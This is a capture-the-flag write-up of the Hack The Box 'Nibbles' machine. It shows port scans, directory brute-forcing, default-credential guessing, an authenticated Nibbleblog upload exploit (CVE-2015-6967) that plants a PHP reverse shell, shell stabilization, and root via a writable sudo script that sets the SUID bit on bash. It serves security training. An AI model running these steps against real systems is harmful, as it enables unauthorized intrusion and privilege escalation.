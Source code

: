 ```yaml
---
title: "HTB Nibbles"
date: 2022-12-18T18:22:03-05:00
draft: false
---
```


#### Initial nmap
```bash
sudo nmap -p- -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

#### Concentrated nmap

```bash
sudo nmap -p 22,80 -A -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.51 ms 10.10.14.1
2   42.63 ms 10.129.30.217
```

#### Port 80 - 

It looks like a static webpage
![[static_page.png]]

Since there are only two ports open I will run gobuster and see if I can find any directories that may be on the site.

![[gobuster_1.png]]

No luck with directory brute-forcing, but if I check the source of the webpage we get a bit of a hint.

![[view_source.png]]

If i navigate to the webpage `http://$IP/nibbleblog/` it looks like a blog page.

![[nibbles_blog.png]]

Using gobuster we can look for subdirectories inside /nibbleblog/ 

![[gobuster_2.png]]

Navigating to the readme file at `http://$IP/nibbleblog/README`

we can see the version the blog is running

![[Pasted image 20221218162251.png]]
After doing some research on google, I found there is a RCE on this version of nibbleblog, but we need to be authenticated. 

I will try default credentials i.e. `admin:admin` etc.

after doing this for a bit I tried `admin:nibbles` and it was successful! Now we can move forward with the RCE.

#### RCE - 

I will be using this script from github (https://github.com/dix0nym/CVE-2015-6967) combined with the php reverse shell which can be found here (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

when you setup the php reverse shell be sure to edit the file and add your IP & port that you will be listening on.
![[php_revshell.png]]

Once finished you can proceed with these steps

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```

```bash
chmod +x exploit.py
```

```bash
python3 exploit.py --url http://10.129.30.217/nibbleblog/ --username admin --password nibbles --payload shell.php
```

After running the script check your reverse shell and you should see the following - 

![[nc_shell.png]]

Upgrading our shell (make the reverse shell more stable)

```bash
which python3

/usr/bin/python3
```

Great, we can use python3 to upgrade our shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

after running you should see this - 
![[shell_upgrade.png]]

Now we can make it even better with the following - 

```
ctrl+z (this will drop you into your host/vm terminal)
```

When in your host shell 

```bash
stty raw -echo ; fg (Hit enter, nothing will happen, but hit enter again and you will be back into the shell as nibbler@Nibbles)
```

![[shell_upgrade2.png]]

Next we can export TERM 

```bash 
export TERM=xterm-256color
```

#### PrivEsc

As the user nibbler we can run a script using sudo 

![[sudo_privs.png]]

the files are zipped up but we can fix that.

```bash
unzip personal.zip
```

```bash
cd personal/stuff
```

```bash
ls -la 

drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can write to this file, so lets add something we can abuse to gain root access!

```bash
echo "chmod +s /bin/bash" >> monitor.sh
```

execute the script as sudo 

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

this should set the bash binary to has a SUID bit set this will allow us to execute bash as root. We can do this with the following command.

```bash
bash -p
```

After running that you should see this - 

![[suid_abuse.png]]

and if you run whoami it will say `root`

you can gather the flags from the user & root directory.


